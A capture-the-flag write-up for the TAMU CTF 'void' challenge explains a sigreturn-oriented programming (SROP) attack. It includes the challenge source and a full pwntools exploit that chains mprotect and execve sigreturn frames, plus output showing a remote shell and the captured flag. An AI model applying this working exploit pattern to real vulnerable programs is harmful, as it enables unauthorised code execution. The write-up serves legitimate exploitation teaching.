 ```yaml
---
layout: post
title:  "[TAMU ctf] void"
date:   "2022-04-19"
categories: Pwn
author: Eurus
---
```


This is the output of checksec over the ELF of this challenge.

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

This was a cool little srop challenge! 

the source code of this challenge was very tiny. This was the description 
"Can't exploit it if there isn't anything to exploit, right? NX, no libc, 
what else even can you do?!"

```c
void main() {
    asm
    (
        "mov $0, %rax;"
        "mov $0, %rdi;"
        "mov %rsp, %rsi;"
        "mov $2000, %rdx;"
        "syscall;"
    );
}

int _start() {
	main();
    asm(
    	"mov $60, %rax;"
    	"mov $0, %rdi;"
    	"syscall;"
    );
}
```

As we can see the binary will read 2000 byte directly into the stack. There was only few gadget useful
but there was a syscall gadget, and this, with this gadget we can perform srop since also 
the number of bytes read is enough for this technique.

In order to perform this technique is required a syscall gadged and a way to set the rax register.
In this binary we haven't a direct pop rax gadget, but we can set the rax value using th return 
of the read syscall.

This technique abuses of the ```sigreturn``` syscall (id is 15 for 64 bit ). This syscall usually 
restore the register state after a signal handler returns. So usually is never directly called 
by a user. The stack contain the sigcontext structures that contain all the registers, so if we 
can write enough byte in the stack we can control all the registers value.

Pwntools has some useful function that create a sigreturn frame (sigcontext) that will contain 
the value of the registers.

My first plan was to call mprotect and then inject a shellcode, but then I have only called execve 
with /bin/sh.

So I have used the first SigreturnFrame to perform a stack pivot, 
so is not very elegant but it works! After te first syscall (mprotect) the rsp point to a well know 
address and now I can point to the b'/bin/sh\x00' located at the end of the second sigreturn 
frame (execve)

This is my exploit

```python
from pwn import *

context.binary = elf = ELF('./void')

#p = elf.process()
#gdb.attach(p)
p = remote("tamuctf.com", 443, ssl=True, sni="void")

base_address_text = 0x400000

sys_ptr =     0x0000000000401018
syscall = p64(sys_ptr)
vuln    = p64(elf.sym.main)

vuln_ptr = next(elf.search(b'\x00\x10\x40')) # ptr prt to main
bin_addr = 0x400198 #searched in gdb since now the stack position is known


frame_mprotect = SigreturnFrame(kernel = 'amd64')
frame_mprotect.rax = 0x0a
frame_mprotect.rdi = base_address_text
frame_mprotect.rsi = 0x2000
frame_mprotect.rdx = 6#7
frame_mprotect.rsp = vuln_ptr
frame_mprotect.rip = sys_ptr



frame_execve = SigreturnFrame(kernel = 'amd64')
frame_execve.rax = 0x3b
frame_execve.rdi = bin_addr
frame_execve.rsi = 0
frame_execve.rdx = 0
frame_execve.rip = sys_ptr

payload = vuln + syscall + bytes(frame_mprotect) 


p.sendline(payload)
log.info('Press any key')
input()
p.sendline(payload[8:8+14]) #set rax to 0xf
log.info('Press any key')
input()
payload = vuln + syscall + bytes(frame_execve) +b'/bin/sh\x00'
p.sendline(payload)
log.info('Press any key')
input()
p.sendline(payload[8:8+14]) #set rax to 0xf

p.interactive()
```


and this is the output:

```text
eurus@node-01-00:~/Scaricati/void$ python3 solver-template.py 
[*] '/home/eurus/Scaricati/void/void'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to tamuctf.com on port 443: Done
[*] Press any key

[*] Press any key

[*] Press any key

[*] Switching to interactive mode
$ ls
docker_entrypoint.sh
flag.txt
void
$ cat flag.txt
gigem{1_6u355_7h475_h0w_w3_3xpl017_17}$ 
[*] Interrupted
[*] Closed connection to tamuctf.com port 443
```






















